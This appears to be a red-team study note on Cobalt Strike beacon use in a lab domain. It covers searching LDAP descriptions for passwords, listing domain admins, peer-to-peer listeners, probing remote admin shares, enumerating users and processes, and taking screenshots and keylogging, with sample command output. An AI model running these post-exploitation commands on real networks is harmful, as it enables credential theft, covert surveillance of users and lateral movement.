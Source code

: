 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[CobaltStrike]]  
___

## Description:  



### Useful BOFs

[Situational Awareness BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF)

Can use this to look for passwords in descriptions fields 

`ldapsearch (&(objectClass=User)(objectCategory=Person)) name,samaccountname,description

or find domain admins

`netGroupListMembers "Domain Admins" domainname.local`




### Peer-to-Peer Listeners
Allows one beacon to talk to another beacon without having to directly talk to the team server.


Go to Listeners, add, choose payload to be either beacon SMB or beacon TCP.

Generate payload for that listener, execute on second target. 

Use `link` and `connect` commands on first target to connect.

`connect <first_target_ip> 4444`



### Test Local Admin access

^7373ce

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\srv-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 14:43:16   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     05/14/2021 15:29:09   Config.Msi
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/25/2021 13:12:18   inetpub
          dir     02/23/2018 11:06:05   PerfLogs
          dir     05/14/2021 15:25:37   Program Files
          dir     05/14/2021 15:15:23   Program Files (x86)

```

### Currently logged on users

^b9973d

```
beacon> net logons
Logged on users at \\localhost:

DEV\SRV-1$
DEV\jking
DEV\svc_mssql
```

### Running Processes

```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           DEV\jking
2496  716   svchost.exe                  x64   1           DEV\jking
2948  1200  sihost.exe                   x64   1           DEV\jking
3088  1200  taskhostw.exe                x64   1           DEV\jking
3320  3304  explorer.exe                 x64   1           DEV\jking
3608  796   ShellExperienceHost.exe      x64   1           DEV\jking
3800  796   SearchUI.exe                 x64   1           DEV\jking
4004  3320  shutdown.exe                 x64   1           DEV\jking
4016  4004  conhost.exe                  x64   1           DEV\jking
4472  1200  taskhostw.exe                x64   1           DEV\jking
[...snip...]
2656  716   sqlservr.exe                 x64   0           DEV\svc_mssql

```


### Screenshots

^563c93

Taking screenshots of the user’s desktop can be useful just to see what they are doing. It can show what systems or applications they're using, what shortcuts they have, what documents they’re working on and so on.

```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop

```


### KeyLogger

^00b23d

A keylogger can capture the keystrokes of a user, which is especially useful for capturing usernames, passwords and other sensitive data.
`Keylogger`

All keystrokes can be seen at **View > Keystrokes**.


The keylogger runs as a job that can be stopped with the `jobkill` command.

```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1

```






___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (07:36 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
